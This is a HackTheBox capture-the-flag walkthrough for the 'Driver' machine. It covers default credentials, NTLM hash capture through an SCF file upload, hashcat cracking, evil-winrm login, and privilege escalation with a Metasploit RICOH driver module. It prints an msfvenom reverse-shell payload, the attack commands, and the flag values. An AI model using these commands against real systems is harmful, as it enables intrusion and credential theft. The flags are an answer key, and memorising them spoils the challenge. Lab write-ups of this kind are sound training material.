

# HackTheBox Walkthrough - Room: Driver

**Target IP**: 10.129.95.238  
**Difficulty**: Medium  
**Objective**: Gain access to the system, escalate privileges, and capture user and root flags.  


---

## Task 1  
**Question**: What username is disclosed when looking at the HTTP response headers?  
  
**Answer**: `admin`  
> `WWW-Authenticate: Basic realm="MFP Firmware Update Center. Please enter password for admin"`

---

## Task 2  
**Question**: What is the password for this target's login?  
**Answer**: `admin`  
> Weak default credentials used.

---

## Task 3  
**Question**: What is the file extension that can be uploaded here to trigger a connection?  
  
**Answer**: `scf`  
> Uploading `.scf` triggers Windows to try loading icon file via SMB.  
  
  

Reference: [SCF Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

---

## Task 4  
**Question**: What is the mode in Hashcat required to crack this hash format?  
  
  
**Answer**: `5600`  
> Net-NTLMv2 → Hashcat Mode 5600  
> Reference: [Hashcat Example Hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)

---

## Task 5  
**Question**: What is the tony user's password?  
  
**Answer**: `liltony`  
> Cracked using:
```bash
hashcat -m 5600 -a 0 tony.txt /usr/share/wordlists/rockyou.txt
```

---

## Submit User Flag  
**Answer**: `26b5081e35e8fd5708c582e8eff43525`  
  

> Logged in via:
```bash
evil-winrm -i 10.129.95.238 -u tony -p liltony
```


---

## Task 7  
**Question**: What is the filename that stores the command history for PowerShell for tony?  
**Answer**: `ConsoleHost_history.txt`

---

## Task 8  
**Question**: What is the Metasploit module name for exploiting the RICOH driver?  
  
**Answer**: `ricoh_driver_privesc`  
> Seen in PowerShell:
```powershell
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

```bash
msfconsole
search RICOH
```


---

## Task 9  
**Question**: What command can be used in Metasploit to switch to an interactive logon process?  
**Answer**: `migrate`  
> e.g., `migrate 4636` to explorer.exe

---

## Task 10  
**Question**: Is it possible to elevate to SYSTEM privileges with CVE-2021-1675?  
**Answer**: `yes`  
> PrintNightmare allows privilege escalation.

---

## Submit Admin Flag  
  
  


**Answer**: `8d7c2cb1f203d204c6c00d0688689481`  

> Process:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.84 LPORT=4444 -f exe > shell.exe
upload shell.exe to C:\Users\tony\music
run handler in Metasploit

./shell.exe
ps → migrate to explorer.exe (PID 4636)
use exploit/windows/local/ricoh_driver_privesc
set session 1, lhost tun0, run
```

---
